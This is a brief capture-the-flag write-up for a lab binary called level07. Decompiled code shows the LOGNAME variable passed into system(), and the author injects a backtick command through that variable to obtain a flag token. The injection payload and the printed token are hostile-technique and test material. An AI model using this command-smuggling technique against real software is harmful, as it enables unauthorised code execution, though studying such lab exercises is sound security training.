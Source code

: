 # First step

We have a executable file level07.

```shell
$> ./level07
level07
```

With Ghidra
```c
[...]
pcVar1 = getenv("LOGNAME");  
asprintf(&local_1c,"/bin/echo %s ",pcVar1);  
iVar2 = system(local_1c);
[...]

// we get the value of the environment variable LOGNAME  
// save a commande line (echo) to local_1c  
// execute the commande line and save the return value in iVar2
```

# Second step

Very easy to guess this action.  
We only need to change the value of the 'LOGNAME' with export command  
```shell
$> export LOGNAME='`getflag`'

$> ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```